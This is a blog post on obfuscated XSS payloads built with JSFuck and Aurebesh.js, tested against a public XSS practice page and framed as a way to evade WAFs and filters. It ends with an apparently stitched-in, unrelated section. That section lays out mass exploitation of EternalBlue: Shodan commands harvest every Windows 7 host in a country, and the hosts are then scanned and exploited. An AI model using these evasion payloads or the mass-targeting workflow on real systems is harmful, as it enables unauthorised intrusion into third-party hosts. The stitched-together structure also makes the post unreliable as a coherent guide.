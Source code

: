 ```yaml
---
layout: post
title:  Exploiting Cross-Site Scripting Vulnerabilities with Polymorphic Payloads
description: In this post, the use of polymorphism in JavaScript execution payloads in Cross-Site Scripting (XSS) attacks is presented.
date:   2024-05-23 11:01:35 +0300
image:  '/images/150.jpg'
tags:   [bug bounty, web]
---
```


Hello hackers,

Today, I want to introduce an intriguing topic I've recently started studying: polymorphic JavaScript execution payloads for Cross-Site Scripting (XSS) attacks. This advanced technique can help bypass Web Application Firewalls (WAFs) and various filters, making it an invaluable tool for our bug bounty hunts and penetration tests. By understanding and applying polymorphism in our payloads, we can enhance our ability to exploit vulnerabilities more effectively and evade defensive mechanisms. This knowledge is essential for anyone looking to stay ahead in the ever-evolving landscape of web security.

### JSFuck

JSFuck is an esoteric and educational programming style based on the atomic parts of JavaScript. It uniquely utilizes only six different characters to write and execute code: [ ] ( ) ! +. This minimalist approach not only highlights the flexibility and power of JavaScript but also serves as an intriguing challenge for developers.

One of the remarkable features of JSFuck is its independence from the browser environment. This means you can run JSFuck code in Node.js, broadening its applications beyond traditional web contexts. Whether you are exploring the depths of JavaScript's capabilities or looking for unconventional ways to obfuscate code, JSFuck offers a fascinating avenue for both learning and experimentation.

An example of using JSFuck is the following payload, where all characters after "onerror" correspond to the JavaScript code alert(1).

{% highlight js %}
    <img src=x onerror=[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])>
{% endhighlight %}

To test the payload, a site by Brutelogic was used, which allows for testing Cross-Site Scripting (XSS) payloads.
In the user field, we inserted the payload.

![]({{site.baseurl}}/images/156.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/155.jpg)
*Reflection in the code*

As mentioned earlier, using JSFuck is an excellent way to bypass filters related to the "alert(1)" part.

### AUREBESH.JS
<a href="https://aem1k.com/aurebesh.js/" target="_blank">Aurebesh Site Translator</a>

Aurebesh.js was created by Martin Kleppe (@aemkei), and it functions to translate JavaScript into various other writing systems. In this case, we constructed a payload by converting the word "alert" using Aurebesh.js.

Here's an example of an XSS payload using Aurebesh.js to encode the word "alert":

{% highlight js %}
    <svg/onload=a='',l=!a+a,e=!l+a,r=a+{},t=l[a++],aa=l[al=a],ae=++al+a,ar=r[al+ae],l[ar+=r[a]+(l.e+r)[a]+e[ae]+t+aa+l[al]+ar+t+r[a]+aa][ar](e[a]+e[al]+l[ae]+aa+t+"(a)")()>
{% endhighlight %}

![]({{site.baseurl}}/images/157.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/158.jpg)
*Reflection in the code*

This payload utilizes the encoded version of alert(1) to execute JavaScript in the onload event of an SVG element, demonstrating how Aurebesh.js can obfuscate code to bypass filters.

Another example of a payload we can use utilizing the Hebrew writing system:
{% highlight js %}
    <script>%20א="",ב=!א+א,ג=!ב+א,ד=א+%7B%7D,ה=ב[א++%20],ו=ב[ח=א],ט=++ח+א,כ=ד[ח+ט],ב[%20כ+=ד[א]+(ד.ד+ד)[א]+ג[ט]+ה+ו+ב[ח]+%20כ+ה+ד[א]+ו][כ](ג[א]+ג[ח]+ב[ט%20]+ו+ה+"('שלום%20עולם')")()%20</script>
{% endhighlight %}

![]({{site.baseurl}}/images/159.jpg)
*Payload Injection*

This script uses Hebrew characters and variable names to obfuscate the alert('שלום עולם') payload. This method can help bypass filters that may look for specific patterns or keywords, enhancing the effectiveness of your XSS attacks.

There are numerous other examples on the site, such as RUNES, JAVANESE, ARABIC, SPACE, SYMBOLS, and SLASH, which can be used to create unique payloads.

### Detailing
* Choice of vulnerability: Let’s use EternalBlue as an example;
* Collection of information about aspects of hosts in which the vulnerability is present: Eternalblue is the characteristics of the hosts in which we can link the vulnerability during our survey of hosts is:
Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016;
* Collection of hosts: For this step, we are going to use the shodan API.

{% highlight js %}
    shodan download --limit -1 --fields ip_str test.json os:windows 7 country:<>
{% endhighlight %}

Here is the meaning of each part of the command:

* “shodan download”: Indicates the command to start downloading the search results;
* “ — limit -1”: Sets the result limit to -1, which means there is no limit on the number of results;
* “ — fields ip_str”: Specifies the fields that will be included in the download file. In this case, only the field “ip_str” (IP address) will be included;
* “test.json”: Is the name of the file where the results will be saved. In this case, the file will be called “test.json”;
* “os:windows 7”: This is a filter applied to the search to return only hosts that have the Windows 7 operating system;
* “country:<>”: This is another filter applied to the search to return only hosts located in country.

In short, this command asks Shodan to download information from all hosts running Windows 7 operating system located in country, saving only the IP addresses of these hosts in the “test.json” file. Using the “ — limit -1” parameter ensures that all results are downloaded, with no quantity restrictions.

{% highlight js %}
    shodan parse --fields ip_str test.json.gz
{% endhighlight %}

The command is used to analyze and extract specific information from a compressed file in JSON format, which contains data downloaded from Shodan.

* Scan directed to the hosts to validate the “chosen” vulnerability: For this step, we can use any tool or exploit directed to that vulnerability that we have selected to massively check all the ip’s in search of which ones are in fact vulnerable. Ex: Nmap, Nuclei, Custom Tool.
* Exploitation: In this step, we take all the hosts that are really vulnerable to that vulnerability and we exploit it manually with an exploit or something like that.

Note: This article has the sole purpose of studying and seeking knowledge. The information presented here is intended solely for educational and informational purposes.